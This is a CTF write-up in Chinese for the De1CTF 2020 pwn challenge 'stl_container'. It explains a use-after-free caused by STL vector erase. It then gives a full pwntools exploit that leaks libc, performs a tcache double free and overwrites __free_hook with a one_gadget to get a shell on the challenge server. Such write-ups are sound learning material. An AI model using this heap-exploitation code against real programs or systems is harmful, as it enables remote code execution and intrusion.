 ```yaml
---
title: De1CTF 2020 Pwn stl_container
date: 2020-05-05 00:00:00
categories:
- CTF/Pwn
tags: tcache STL  
---
```


> 漏洞点是：使用C++中的STL中vector存储对象的指针时，在earse清除其中元素时，总会调用最后一个对象的析构函数，最终导致存在悬空指针，并且可以被使用，即UAF。其使用的方式是可以继续free以及show其内容。

> 利用方式：本题libc版本为2.27，故可以使用构造tcache的DoubleFree完成任意地址写任意值。题目开启了全部保护，所以首先通过堆排布的手段泄露libc基址。然后通过DoubleFree覆盖libc中的__free_hook函数指针为one_gadget，并触发即可getshell。

- CTFtime: [stl_container](https://ctftime.org/task/11463)
- 题目文件: [cpp_attachment.zip](https://xuanxuanblingbling.github.io/assets/attachment/cpp_attachment.zip)
- 官方WP: [stl_container](https://blog.de1ta.club/2020/05/06/de1ctf2020%20Writeup/#stl_container)

漏洞成因在做题的时候不是很明白，但是经过简单的测试以及调试就能发现打印出了奇怪的字符串，所以做题未必非要清楚漏洞成因：

- [std::vector::erase](http://www.cplusplus.com/reference/vector/vector/erase/)
- [Is destructor called when removing element from STL container?](https://stackoverflow.com/questions/3326238/is-destructor-called-when-removing-element-from-stl-container)
- [STL释放指针元素时造成的内存泄露](https://imzlp.me/posts/50773/)
- [STL源码分析之vector](http://luodw.cc/2015/10/27/STL-vec/)

```python
from pwn import *
context(arch="amd64",os ='linux',log_level='debug')
myelf = ELF("./stl_container")
libc  = ELF('./libc-2.27.so')
io    = remote("134.175.239.26",8848)
#io    = process(myelf.path,env={"LD_PRELOAD" : libc.path})

uu64        = lambda data                 :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
List        = lambda                      :  (sla(">> ",'1'))
vector      = lambda                      :  (sla(">> ",'2'))
queue       = lambda                      :  (sla(">> ",'3'))
stack       = lambda                      :  (sla(">> ",'4'))
add         = lambda data                 :  (sla(">> ",'1'),sla("data:",data))
delete      = lambda idx                  :  (sla(">> ",'2'),sla("?\n",str(idx)))
show        = lambda idx                  :  (sla(">> ",'3'),sla("?\n",str(idx)))

# full tache
vector();add("123")
vector();add("456")
List();add("123")
List();add("123")
queue();add("123")
queue();add("456")
stack();add("123")
stack();add("456")
stack();vector()
stack();vector()
queue();vector()
queue();vector()
List();delete(1)
List();delete(0)

# free chunks to unsorted bin
vector();delete(0)

# leak libc
vector();show(0)
io.recvuntil(": ")
libc_addr = uu64(io.recv(6))-0x3ebca0
log.warn(hex(libc_addr))

# clear tcache
List();add("123")
List();add("123")
queue();add("123")
queue();add("456")
stack();add("123")
stack();add("456")
vector();add("123")

# tcache double free for arbitrary address write
vector();delete(0)
vector();delete(0)

# use aaw to modify __free_hook to one_gadget
vector();add(p64(libc_addr+libc.symbols['__free_hook']))
vector();add(p64(libc_addr+0x4f322))

io.interactive()
```